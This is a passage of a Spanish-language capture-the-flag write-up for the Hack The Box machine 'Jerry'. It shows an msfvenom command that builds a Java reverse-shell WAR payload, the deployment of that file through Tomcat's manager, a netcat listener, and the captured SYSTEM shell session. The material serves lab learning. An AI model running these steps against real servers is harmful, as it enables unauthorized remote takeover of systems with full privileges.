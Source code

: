 Por lo anterior, vamos a crear un payload de Java, para un archivo war, con `msfvenom`

```console
┌──(kali㉿kali)-[~/…/Machines/Easy/Windows/Jerry]
└─$ sudo msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > shell.war
Payload size: 1083 bytes
Final size of war file: 1083 bytes

```

- `-p:` payload que vamos a utilizar
- `<LHOST>:` la dirección IP de la máquina local
- `<LPORT>:` el puerto de la máquina local en el que queramos establecer la shell reversa
- `-f:` formato

Una vez creado el payload vamos dar clic al botón Browser en el apartado `WAR file to deploy` y vamos a buscar el archivo shell.war y finalmente damos click al botón Deploy.

Antes de dar desplegar el archivo `/shell` vamos a crear una sesión con **netcat** que es una herramienta de red nos permite ponernos en modo escucha en un puerto seleccionado tanto en TCP como UDP. El comando a ejecutar es el siguiente:
`nc -nlvp 4444`

- `-n:` no DNS
- `-l:` activa el modo escucha
- `-v:` informa el estado de la sesión
- `-p:` permite especificar el puerto local que se va a utilizar

Ahora sí, vamos a darle clic a la aplicación `/shell` y ya estamos dentro de la máquina como usuario `nt authority/system` la cual es una cuenta que tiene acceso a todos los recursos del sistema local

```console
┌──(kali㉿kali)-[~]
└─$ sudo nc -nlvp 4444                                                                                                           1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>cd C:\Users\Administrator
cd C:\Users\Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is FC2B-E489

 Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)  27,602,907,136 bytes free

C:\Users\Administrator\Desktop>cd flags
cd flags

```
